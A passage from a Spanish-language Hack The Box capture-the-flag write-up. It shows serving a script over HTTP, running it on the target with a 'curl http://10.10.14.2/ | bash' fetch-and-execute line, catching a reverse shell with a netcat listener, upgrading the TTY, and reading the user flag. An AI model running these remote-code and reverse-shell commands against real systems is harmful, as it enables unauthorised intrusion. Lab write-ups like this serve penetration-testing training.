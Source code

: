 ```go
python3 -m http.server 80
```

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/2fb5426e-d2ff-4753-a16c-40dd303ba41a">
</p>

<p align="justify">
  Para ejecutar el script, podemos utilizar la siguiente sintaxis, seguida de una tubería (pipe) y el comando "bash" para ejecutar el script y obtener acceso a una consola interactiva.
</p>

```go
curl http://10.10.14.2/ | bash
```

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/8c462e52-d6b1-402c-ac93-76f6659654ea">
</p>

```go
nc -nvlp 443
```

<p align="justify">
  Hemos logrado obtener acceso y, para mejorar la interacción, hemos configurado una TTY para obtener una terminal interactiva completa.
</p>

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/21713332-fd70-4dab-9a36-1b51b88e3de5">
</p>

>**TRATAMIENTO DE LA TTY**

```go
$ script /dev/null -c bash
^Z
# stty raw -echo; fg
reset xterm

$ export TERM=xterm
$ export SHELL=bash
$ stty rows ## columns ###
```

<p align="justify">
  Ahora que hemos conseguido acceso, revisamos la lista de usuarios existentes y recuperamos la bandera de usuario en el directorio home del usuario "developer".
</p>

```go
cd /home/developer
cat user.txt
```
